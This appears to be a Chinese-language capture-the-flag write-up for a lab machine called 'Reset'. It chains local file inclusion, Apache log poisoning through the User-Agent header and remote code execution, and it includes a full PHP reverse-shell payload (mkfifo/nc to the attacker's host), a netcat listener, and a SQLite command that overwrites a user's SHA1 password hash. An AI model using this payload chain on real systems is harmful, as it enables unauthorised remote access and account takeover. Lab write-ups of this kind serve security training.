



## Reset

#### 这是一个找不到域名的靶机，不重要！
#### 这是一个password_hash 值为无法通过常规字典（如 rockyou.txt）爆破的强 SHA1的 一个包含弱身份验证机制的 Web 应用靶机，重要！

基于 SQLite 的用户管理系统，密码使用 SHA1 进行哈希存储；
提供了一个公开接口 reset_password.php，允许通过用户名重置密码，并返回明文密码；



## buripsuite | squite3添加SHA1 

### 1. 关于BurpSuite 的 主动利用漏洞的中间人攻击技术流程

Web 应用的密码重置功能，在浏览器的开发者工具中 (F12 → Network)获得密码后，开始拦截
#### 获得POST，Ctrl+R,Shift+Ctrl+R 修改file=为/%2Fvar/%2Flog/%2Fapache2/%2Faccess.log  Send，回应有User-Agent字段 ,Forward 
漏洞类型：本地文件包含（LFI）
#### 点击同个浏览器页面，获得POST，Ctrl+R,Shift+Ctrl+R 修改User-Agent:为
```
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 主机IP不是目标IP 9090 >/tmp/f'); ?>
```
Send,Forward 
漏洞类型：日志注入（Log Poisoning,攻击载体：User-Agent header 注入 PHP payload
#### 点击同个浏览器页面，获得POST，Ctrl+R,Shift+Ctrl+R 修改file=为/%2Fvar/%2Flog/%2Fapache2/%2Faccess.log 
```
nc -lvnp 9090
```
Send  连接上nc 
漏洞类型：命令执行（RCE）,通过 LFI 包含 access.log，实现服务器端 payload 执行

### 2.squite3添加SHA1 
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@reset:/var/www/html$ export TERM=xterm
www-data@reset:/var/www/html$ whoami

www-data@reset:/var/www/html$ ls
dashboard.php index.php private_34eee5d2 reset_password.php
www-data@reset:/var/www/html$ cd private_34eee5d2
www-data@reset:/var/www/html/private_34eee5d2$ ls
db.sqlite
www-data@reset:/var/www/html/private_34eee5d2$ sqlite3 db.sqliet
sqlite> .table
users
sqlite> SELECT * FROM users;
1|admin|hash...|1
sqlite> .exit
```

+sadm 允许所有主机以 sadm 用户身份信任连接（允许免密码 rsh 登录）

使用rockyou.txt无法破解hash值，登陆samd需要www-date的密码

so SHA1 是单向哈希，不能“解密”
创建一个自定义密码的sha1 

```
sqlite> UPDATE users SET password_hash = '自定义sha1' WHERE username = 'sadm';
```
不能破解密码，就自己更新密码


